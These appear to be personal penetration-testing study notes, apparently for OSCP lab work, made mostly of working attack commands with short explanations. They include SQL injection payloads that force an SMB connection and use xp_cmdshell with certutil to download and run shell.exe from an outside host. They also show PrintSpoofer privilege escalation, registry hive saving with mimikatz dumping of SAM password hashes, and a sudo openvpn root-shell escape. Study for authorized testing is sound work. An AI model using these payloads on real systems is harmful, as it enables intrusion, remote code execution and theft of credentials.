   

```SQL
';exec master..xp_dirtree '\\192.168.45.205\test';-- s

This code is an example of SQL injection, a type of attack that allows an attacker to execute arbitrary SQL code on a database. Here's a breakdown:

1. `';` - This closes any existing SQL statement.
2. `exec master..xp_dirtree '\\192.168.45.205\test';` - 
This executes the `xp_dirtree` stored procedure, which lists the directory 
structure of the specified path. In this case, it attempts to access a network 
share at `\\192.168.45.205\test`.
3. `--` - This is a comment delimiter in SQL, which comments out the rest of the 
line, preventing any syntax errors from the original query.
4. `s` - This is part of the comment and has no effect.

This type of injection can be used to exploit vulnerabilities in applications 
that do not properly sanitize user inputs.
exec: This keyword is used to execute a command or stored procedure in SQL Server.
master: This is the name of the system database in SQL Server where many system 
stored procedures and functions are stored.
: This syntax is used to specify that the stored procedure is in the master 
database. The double dot .. is shorthand for the current database context.
xp_dirtree: This is an extended stored procedure that lists the directory 
structure of a specified path.
.. This indicates that the stored procedure should be executed from the master 
database, using the default schema.
```

```SQL
'; EXEC xp_cmdshell 'certutil -urlcache -f http://192.168.45.205/shell.exe C:\temp\shell.exe';--
```

```SQL
'; EXEC xp_cmdshell 'C:\temp\shell.exe';--
```

or as one

```SQL
'; EXEC xp_cmdshell 'certutil -urlcache -f http://192.168.45.218/shell.exe C:\temp\shell.exe  C:\temp\shell.exe';--
```

The `SeImpersonatePrivilege` is the privilege that can be exploited using PrintSpoofer for privilege escalation.

### Relevant Privilege:

- **SeImpersonatePrivilege**
    - **Description**: Impersonate a client after authentication.
    - **State**: Enabled.

### Why SeImpersonatePrivilege is Exploitable:

- **Impersonation Tokens**: This privilege allows a process to impersonate another user's security context, which can be exploited to gain higher privileges.
- **Token Duplication**: Tools like PrintSpoofer can duplicate tokens from privileged services and use them to escalate privileges.

### Summary:

Among the listed privileges, `SeImpersonatePrivilege` is the one that can be used by PrintSpoofer to perform privilege escalation.

```SQL
printspoofer.exe  -i -c powershell
```

```SQL
reg save hklm\sam sam.hiv
reg save hklm\security security.hiv
reg save hklm\system system.hiv
./mimikatz64.exe "privilege::debug" "token::elevate" "lsadump::sam sam.hiv security.hiv system.hiv" "exit"
./mimikatz64.exe "lsadump::sam /system:C:\TEMP\SYSTEM /sam:C:\TEMP\SAM" "exit"
./mimikatz64.exe "lsadump::sam sam.hiv security.hiv system.hiv" "exit"
```

1. `**"privilege::debug"**`:
    - This command enables the `**SeDebugPrivilege**`, which allows Mimikatz to access sensitive parts of the system. This privilege is necessary for many of Mimikatz’s operations.
2. `**"token::elevate"**`:
    - This command attempts to elevate the current process token to gain higher privileges. This is useful for ensuring that Mimikatz has the necessary permissions to perform its tasks.
3. `**"lsadump::sam /sam:C:\TEMP\sam.hiv /security:C:\TEMP\security.hiv /system:C:\TEMP\system.hiv"**`:

- `**lsadump::sam**`: This module of Mimikatz is used to dump the Security Account Manager (SAM) database, which contains user account information and hashed passwords.
- `**/sam:C:\TEMP\sam.hiv**`: Specifies the path to the saved SAM hive file.
- `**/security:C:\TEMP\security.hiv**`: Specifies the path to the saved SECURITY hive file.
- `**/system:C:\TEMP\system.hiv**`: Specifies the path to the saved SYSTEM hive file.
- **LSA** stands for **Local Security Authority**

  

```SQL
 sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
```

The command `**sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'**` shifts to using root privileges because of the `**sudo**` command at the beginning. Here’s why:

### Understanding `**sudo**`

- `**sudo**`: This command stands for “superuser do” and is used to run commands with elevated (root) privileges. When you prefix a command with `**sudo**`, it executes that command as the root user, which has unrestricted access to the system.

### Why Use `**sudo**` with OpenVPN?

- **Network Configuration**: OpenVPN often requires root privileges to configure network interfaces, routing tables, and other system-level settings. Running OpenVPN without `**sudo**` might result in permission errors, preventing it from functioning correctly.

### Specific Command Breakdown

`sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'`

- `**sudo**`: Executes the entire command with root privileges.
- `**openvpn**`: Starts the OpenVPN client.
- `**-dev null**`: Uses a null device, typically for testing purposes.
- `**-script-security 2**`: Allows user-defined scripts to be executed.
- `**-up '/bin/sh -c sh'**`: Runs a shell command when the VPN connection is established.

### Security Implications

Running commands with `**sudo**` can pose security risks if not handled carefully:

- **Elevated Privileges**: The command and any scripts it runs have full access to the system, which can be dangerous if the scripts contain vulnerabilities or malicious code.
- **Script Execution**: The `**-up**` option executes a shell command, which can be exploited if the command or script is not secure.

### Best Practices

- **Minimize Use of** `**sudo**`: Only use `**sudo**` when absolutely necessary.
- **Review Scripts**: Ensure any scripts or commands executed with elevated privileges are secure and trusted.
- **Use Least Privilege**: Follow the principle of least privilege to minimize potential security risks.

  

  

for 11

  

use this command check if return true, it is admin user

```SQL
$user = [Security.Principal.WindowsIdentity]::GetCurrent();(New-Object Security.Principal.WindowsPrincipal($user)).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)
</code></pre>
```

```SQL
icacls C:\DevelopmentExecutables\auditTracker.exe
icacls stands for Integrity Control Access Control Lists. It’s a command-line 
utility in Windows used to manage file and directory permissions. With icacls, 
you can view, modify, backup, and restore the access control lists (ACLs) that

 define the permissions for users and groups.
```

  

[[Notion/Offsec/oscpMedth/oscpSE|oscpSE]]